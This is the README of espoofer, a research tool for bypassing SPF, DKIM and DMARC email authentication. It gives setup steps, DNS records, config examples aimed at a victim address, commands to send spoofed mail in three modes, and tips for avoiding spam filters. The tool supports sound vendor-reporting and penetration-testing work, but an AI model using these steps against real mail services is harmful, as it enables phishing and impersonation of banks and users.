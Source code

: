 # espoofer

*espoofer* is a open-source testing tool to bypass SPF, DKIM and DMARC authentication in email systems. It helps mail server administrators and penetration testers to check whether the target email server and client are vulnerable to email spoofing attacks or can be absued to send spoofing emails.

<!-- ![Gmail spoofing demo](images/gmail-spoofing-demo.png "espoofer demo" )
 -->
<p align="center">
<img src="images/gmail-spoofing-demo.png" height="300"><br>
Figure 1. A case of our spoofing attacks on Gmail (Fixed, <a href="https://youtu.be/xuKZpT0rsd0">Demo video</a>)
</p>

## Why build this tool?

Email spoofing is a big threat to both individuals and orgnizations ([Twitter scam](https://twitter.com/TwitterSupport/status/1283591846464233474), [Yahoo breach](https://arstechnica.com/tech-policy/2017/03/fbi-hints-that-hack-of-semi-privileged-yahoo-employee-led-to-massive-breach/), [John podesta](https://www.cbsnews.com/news/the-phishing-email-that-hacked-the-account-of-john-podesta/)). To address this problem, mordern email services and websites employ authentication protcols -- SPF, DKIM and DMARC -- to prevent email forgery. 

Our lastest research shows that the implementation of those protocols suffer a number of securiy issues, which can be exploited to bypass SPF/DKIM/DMARC protections. Figure 1 demostrates one of our spoofing attacks to bypass DKIM and DMARC in Gmail. For more technical details, please see our [Black Hat USA 2020 talk](https://www.blackhat.com/us-20/briefings/schedule/#you-have-no-idea-who-sent-that-email--attacks-on-email-sender-authentication-19902) or [USENIX security 2020 paper](https://www.usenix.org/system/files/sec20fall_chen-jianjun_prepub_0.pdf). 

In this repo, we summarize all test cases we found and integrate them into this tool to help administrators and security-practioners quickly identify and locate such security issues.

## Installation
- Download this tool
```
git clone https://github.com/chenjj/espoofer
```

- Install dependencies
```
sudo pip install -r requirements.txt
```
> *Python version: Python 3 (**3.7.x**).*

## Usage
espoofer has three work modes: *server* ('s', default mode), *client* ('c') and *manual* ('m'). In *server* mode, espoofer works as a mail server to test validation in receiving services. In *client* mode, espoofer works as a email client to test validation in sending services. *Manual* mode is used for debug purporse. 

<p align="center">
<img src="images/email-authentication-flow.png" ><br>
Figure 2. Three types of attackers and their work modes
</p>

#### Server mode
To run espoofer in server mode, you need to have: 1) a IP address (`1.2.3.4`), which port 25 is not blocked by the ISP, and 2) a domain (`attack.com`). 


1. Domain configuration

  - Set DKIM public key for `attack.com`

```
selector._domainkey.attacker.com TXT  "v=DKIM1; k=rsa; t=y; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDNjwdrmp/gcbKLaGQfRZk+LJ6XOWuQXkAOa/lI1En4t4sLuWiKiL6hACqMrsKQ8XfgqN76mmx4CHWn2VqVewFh7QTvshGLywWwrAJZdQ4KTlfR/2EwAlrItndijOfr2tpZRgP0nTY6saktkhQdwrk3U0SZmG7U8L9IPj7ZwPKGvQIDAQAB"
```

 - Set SPF record for `attack.com`

```
_spf.attack.com TXT "v=spf1 ip4:1.2.3.4 ?all"
```

2. Configure the tool in config.py

```
config ={
	"attacker_site": b"attack.com", # attack.com
	"legitimate_site_address": b"admin@bank.com", # legitimate.com
	"victim_address": b"victim@victim.com", # victim@victim.com
	"case_id": b"server_a1", # server_a1
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

3. Run the tool to send a spoofing email

```
python3 espoofer.py
```

You can change case_id in the config.py or use `-id` option in the command line to test different cases:

```
python3 espoofer.py -id server_a1
```

#### Client mode 

To run epsoofer in client mode, you need to have an account on the target email services. This attack exploit the failure of some email services to perform sufficient validation of emails received from local MUAs. An attacker can send emails with spoofed From headers. The exploited email providers may automatically attach DKIM signatures to their outgoing emails, enabling the attacker to impersonate other users of the email provider. For example, `attacker@gmail.com` try to impersonate `admin@gmail.com`. In some cases, cross-domain spoofing is also possible.

1. Configure the tool in config.py

```
config ={
	"legitimate_site_address": b"admin@gmail.com",  
	"victim_address": b"victim@victim.com", 
	"case_id": b"client_a1",

	"client_mode": {
		"sending_server": ("smtp.gmail.com", 587),  # SMTP sending serve ip and port
		"username": b"attacker@gmail.com", # Your account username and password
		"password": b"your_passward_here",
	},
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

> Note: `sending_server` should be the SMTP sending server address, not the receving server address.


2. Run the tool to send a spoofing email

```
python3 espoofer.py -m c
```

You can change case_id in the config.py and run it again, or you can use `-id` option in the command line:

```
python3 espoofer.py -m c -id client_a1
```

#### Manual mode

Here is an example of manual mode:

```
python espoofer.py -m m -helo attack.com -mfrom <m@attack.com> -rcptto <victim@victim.com> -data raw_msg_here -ip 127.0.0.1 -port 25
```

## Bugs found with this tool

* Gmail.com DMARC bypass demo video, https://youtu.be/xuKZpT0rsd0
* Outlook.com DMARC bypass video, https://youtu.be/IsWgAEbPaK0
* Yahoo.com DMARC bypass video, https://youtu.be/DRepfStOruE
* CVE-2020-12272, OpenDMARC bypass bug report, https://sourceforge.net/p/opendmarc/tickets/237/
* CVE-2019-20790, OpenDMARC and pypolicyd-spf bypass bug report, https://sourceforge.net/p/opendmarc/tickets/235/

Welcome to send a pull request to file your bug report here. 

## Q&A

1. How do I know if the email has bypassed DMARC authentication succefully? 

You can check it in the Authentication-results header in the raw message headers. If the headr shows `dmarc=pass`, it means the  email has passed the DMARC authentication.  You can check some demos video [here](https://www.youtube.com/playlist?list=PL--A-gWJV1dJ19SyhkzklMC3C8ra1kK5-).

2. Why do emails fail to send?

There are serveral posssible reasons if you fail to send a email: 1) your ISP blocks outgoing emails to port 25 to prevent spam. In this case, you need to ask for the permission from the ISP; 2) the IP address is in the spam list of the target email services. In many cases, you reslove the problem here, https://www.spamhaus.org/lookup/ ;  3) some email services check if there is a PTR record for the sending IP, you may also need to set the PTR record to bypass this check; 4) the email cannot pass the format validation of the target email service, you may want to try a different test case. 

3. Why the email goes to spam folder? Anyway to avoid this?

Currently espoofer focus on bypassing SPF/DKIM/DMARC authentication, and does't aim for spam filter bypass. But you could try to use a reputable sending IP address and benign message content to bypass the spam filter.

4. Why I send an email successfully but the email didn't showup in either inbox or spam folder?

In our prior experiences, some email services filter suspicious emails silently.

## Credits

Welcome to add more test cases.

<!-- *This repo is created for the vendors to reproduce our reported issues, so this tool is not useable without additional instructions. We will update it after the affected vendors have fixed our reported bugs.*
 -->